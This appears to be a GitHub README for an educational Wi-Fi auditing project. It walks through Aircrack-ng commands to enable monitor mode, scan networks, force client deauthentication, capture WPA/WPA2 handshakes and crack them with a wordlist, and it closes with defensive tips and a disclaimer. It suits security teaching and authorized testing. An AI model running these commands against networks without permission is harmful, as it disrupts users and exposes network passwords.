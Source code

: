 
# Auditing and Attacking a Wi-Fi Network with Aircrack-ng

## 📌 Project Overview
This project demonstrates how to use **Aircrack-ng**, a powerful suite of tools for **Wi-Fi security auditing**, to analyze and exploit vulnerabilities in **wireless networks**. The objective is to **test network security** and learn penetration testing techniques for ethical hacking.

By using **Aircrack-ng** on **Kali Linux**, we can assess network vulnerabilities and strengthen security measures.

---

## 🛠 Tools Used
To perform **Wi-Fi security testing**, the following tools are used:

- **Kali Linux** (for ethical hacking)
- **Aircrack-ng** (Wi-Fi penetration testing suite)
- **Wireshark** (for packet analysis)
- **Wi-Fi Adapter** (must support **monitor mode**)

---

## ⚡ Key Tasks
The following penetration testing activities are performed:

1. **📡 Enabling Monitor Mode on a Wi-Fi adapter**
2. **🔍 Discovering Wi-Fi Networks and their security settings**
3. **📶 Capturing Handshake Packets for password cracking**
4. **🔓 Cracking WEP/WPA/WPA2 passwords using wordlists**
5. **📊 Analyzing Captured Packets using Wireshark**

---

## 🚀 How to Run

### ✅ Step 1: Install Aircrack-ng (if not pre-installed)
Update the package list and install **Aircrack-ng**:

\`\`\`bash
sudo apt-get update && sudo apt-get install aircrack-ng
\`\`\`

Verify installation:

\`\`\`bash
aircrack-ng --help
\`\`\`

---

### ✅ Step 2: Enable Monitor Mode
First, identify your Wi-Fi interface:

\`\`\`bash
iwconfig
\`\`\`

Put your Wi-Fi adapter into **Monitor Mode**:

\`\`\`bash
sudo airmon-ng start wlan0
\`\`\`

Replace `wlan0` with your **Wi-Fi adapter name**.

---

### ✅ Step 3: Discover Wi-Fi Networks
To scan nearby networks:

\`\`\`bash
sudo airodump-ng wlan0mon
\`\`\`

Take note of:
- **BSSID (MAC address)**
- **Channel (CH)**
- **Encryption Type (WEP/WPA/WPA2)**

---

### ✅ Step 4: Capture Handshake Packets
To capture handshake packets for **WPA/WPA2 cracking**, run:

\`\`\`bash
sudo airodump-ng -c [channel] --bssid [BSSID] -w capture wlan0mon
\`\`\`

Example:

\`\`\`bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
\`\`\`

Wait for a **client to connect**, or force disconnection:

\`\`\`bash
sudo aireplay-ng --deauth 10 -a [BSSID] wlan0mon
\`\`\`

If successful, the **handshake** is captured in `capture.cap`.

---

### ✅ Step 5: Crack Wi-Fi Password
Use **Aircrack-ng** with a wordlist to crack the **WPA/WPA2 handshake**:

\`\`\`bash
sudo aircrack-ng -w rockyou.txt -b [BSSID] capture.cap
\`\`\`

Example:

\`\`\`bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF capture.cap
\`\`\`

For **WEP networks**, use:

\`\`\`bash
sudo aircrack-ng -b [BSSID] capture.cap
\`\`\`

---

### ✅ Step 6: Analyze Captured Packets Using Wireshark
To analyze **network traffic**, open the capture file in **Wireshark**:

\`\`\`bash
wireshark capture.cap
\`\`\`

Apply filters to analyze **specific packets**:

- **Handshake packets:** `eapol`
- **Deauthentication attacks:** `wlan.fc.type_subtype == 0x0c`
- **Data packets:** `tcp or udp`

---

## 🛡️ Defensive Strategies
To protect against **Wi-Fi attacks**, implement:

- **Strong WPA2/WPA3 Passwords** (Use a long, complex passphrase).
- **MAC Address Filtering** (Restrict unauthorized devices).
- **Disable WPS (Wi-Fi Protected Setup)** (WPS is vulnerable to brute-force attacks).
- **Enable Network Encryption** (Use WPA3 if available).
- **Monitor for Rogue Access Points** (Use `airodump-ng` for detection).

---

## 🎯 Conclusion
This project demonstrates **Wi-Fi security testing** techniques using **Aircrack-ng** to **audit network vulnerabilities**. Understanding **penetration testing** helps secure **wireless networks** from attacks.

**🔹 Disclaimer:** This guide is for **educational purposes only**. Do not attempt unauthorized penetration testing.

---
### 📝 References:
- [Aircrack-ng Documentation](https://www.aircrack-ng.org/documentation.html)
- [Wireshark Filters](https://www.wireshark.org/docs/dfref/)
- [Wi-Fi Security Best Practices](https://www.cyber.gov.au/)

